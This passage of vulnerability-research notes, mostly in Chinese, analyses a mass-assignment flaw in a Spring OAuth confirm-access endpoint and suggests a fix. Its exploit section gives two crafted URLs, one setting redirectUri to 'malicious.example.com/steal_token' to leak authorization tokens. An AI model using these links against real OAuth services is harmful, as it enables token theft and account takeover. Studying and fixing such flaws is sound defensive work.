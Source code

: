 
```java
@PreAuthorize("hasRole('ROLE_USER')")
@RequestMapping("/oauth/confirm_acces")
public String confimAccess(Map<String, Object> model, @ModelAttribute("authorizationRequest") AuthorizationRequest authRequest, Principal p) {
```

這個註解(annotation)有點棘手
- 它不僅從上一個 controller Model 中取得參數，還從當前 HTTP request query 中取得參數值
- 因此，如果 user 在 browser 中直接導到 `/oauth/confirm_access`，就能從 URL 中提供所有 AuthorizationRequest 參數，並繞過 `/authorize` 頁面上的檢查


唯一需要注意的是
- `/oauth/confirm_access` controller 要求 `@SessionAttributes("authorizationRequest")` 必須存在於 user sesseion 中
- 然而，只需訪問 `/authorize` 頁面，而不對其執行任何操作，就能輕鬆實現這一點
- 該漏洞的影響類似於從未檢查過 `redirect_uri` 的典型案例

**Exploit:**  
- 攻擊者可以製作兩個指向 authorization 和 confirmation endpoint 的特殊 link
- 每個 link 都有自己的 `redirect_uri` 參數，並將它們提供給 user


```
/authorize?client_id=c931f431-4e3a-4e63-84f7-948898b3cff9&response_type=code&scope=openid&prompt=consent&redirect_uri=http://trusted.example.com/redirect
```

```
/oauth/confirm_access?client_id=c931f431-4e3a-4e63-84f7-948898b3cff9&response_type=code&prompt=consent&scope=openid&redirectUri=http://malicious.example.com/steal_token
```


`client_id` 可以來自 user 已經信任的任何 client application
- 訪問 `/confirm_access` 時，它會從 URL 中取所有參數，並對 model/session 下毒
- 現在，當 user 批准第一個 request 時(因為 `client_id` 是可信的)，authorization token 就會洩露給惡意網站



你可能會注意到
- 第一個請求中的 `redirect_uri` 與第二個的 `redirectUri` 存在區別
- 這是有意為之，因為第一個參數是一個有效的 OAuth 參數，而第二個參數是一個參數名，在大規模賦值時實際綁定到 `AuthorizationRequest.redirectUri` model attribute


這裡的 `@ModelAttribute("authorizationRequest")` annotation 是不必要的
- 而且會在轉發過程中產生額外的風險
- 執行相同操作的更安全方法是從 `Map<String, Object> model` 中取這些值，作為使用 `@RequestMapping("/oauth/confirm_access")` 註解的方法的輸入參數


即使這裡不存在 mass assignment
- 通過同時發送兩個 authorization requests，使它們共享同個 session，這個漏洞仍有可能被利用


-----------------

## Chapter three: "/.well-known/webfinger" makes all user names well-known
The "/.well-known/webfinger" is a standard OpenID endpoint that displays information about users and resources used on the server. For example, it can be used in the following way to validate that the user "anonymous" has an account on the server:
